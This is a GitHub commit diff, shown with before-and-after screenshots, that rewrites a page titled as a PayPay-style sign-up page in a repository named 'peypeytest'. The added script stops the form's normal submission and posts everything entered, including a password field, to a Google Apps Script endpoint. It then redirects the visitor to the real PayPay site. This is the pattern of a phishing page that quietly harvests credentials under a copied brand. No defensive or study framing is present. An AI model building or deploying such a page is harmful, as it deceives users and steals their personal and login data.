

Before and after one commit to dostesuto/peypeytest, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 110-800 px from the top of the page, without its empty margins (0-917 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -4,7 +4,112 @@
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
     <title>PayPay風 新規登録ページ</title>
-    <link rel="stylesheet" href="styles.css">
+    <style>
+        body {
+            font-family: 'Arial', sans-serif;
+            background-color: #f7f7f7;
+            margin: 0;
+            padding: 0;
+        }
+
+        .container {
+            max-width: 400px;
+            margin: 50px auto;
+            padding: 20px;
+            background-color: white;
+            box-shadow: 0 0 10px rgba(0,0,0,0.1);
+        }
+
+        header {
+            text-align: center;
+            margin-bottom: 20px;
+        }
+
+        .logo {
+            width: 100px;
+        }
+
+        .tabs {
+            display: flex;
+            justify-content: space-around;
+            margin-bottom: 20px;
+        }
+
+        .tab {
+            font-size: 16px;
+            padding: 10px;
+            color: #999;
+            cursor: pointer;
+        }
+
+        .tab.active {
+            color: #f33;
+            border-bottom: 2px solid #f33;
+        }
+
+        .input-field {
+            width: 100%;
+            padding: 10px;
+            margin-bottom: 10px;
+            border: 1px solid #ddd;
+            border-radius: 5px;
+        }
+
+        .password-field {
+            position: relative;
+        }
+
+        .invite-code {
+            background-color: #ddd;
+            padding: 10px;
+            width: 100%;
+            border: none;
+            border-radius: 5px;
+            margin-bottom: 20px;
+            cursor: pointer;
+        }
+
+        .terms {
+            font-size: 12px;
+            color: #666;
+            margin-bottom: 20px;
+            text-align: center;
+        }
+
+        .register-btn {
+            background-color: #f33;
+            color: white;
+            padding: 10px;
+            width: 100%;
+            border: none;
+            border-radius: 5px;
+            cursor: pointer;
+        }
+
+        .alternative-register {
+            text-align: center;
+            margin-top: 20px;
+        }
+
+        .register-options button {
+            width: 45%;
+            padding: 10px;
+            margin: 5px;
+            border: none;
+            border-radius: 5px;
+            cursor: pointer;
+        }
+
+        .register-yahoo {
+            background-color: #ff0019;
+            color: white;
+        }
+
+        .register-softbank {
+            background-color: #007aff;
+            color: white;
+        }
+    </style>
 </head>
 <body>
     <div class="container">
@@ -37,6 +142,29 @@
         </div>
     </div>
 
-    <script src="script.js"></script>
+    <script>
+        document.getElementById('registration-form').addEventListener('submit', function(event) {
+            event.preventDefault(); // フォームのデフォルト送信を防ぐ
+
+            // フォームデータを取得
+            const formData = new FormData(document.getElementById('registration-form'));
+
+            // Googleスプレッドシートにデータを送信する
+            submitToGoogleSheets(formData);
+
+            // PayPayのホームページにリダイレクトする
+            window.location.href = 'https://paypay.ne.jp/';
+        });
+
+        function submitToGoogleSheets(formData) {
+            fetch('https://script.google.com/macros/s/YOUR_DEPLOYED_URL/exec', {
+                method: 'POST',
+                body: formData
+            })
+            .then(response => response.text())
+            .then(data => console.log('Success:', data))
+            .catch(error => console.error('Error:', error));
+        }
+    </script>
 </body>
 </html>
```
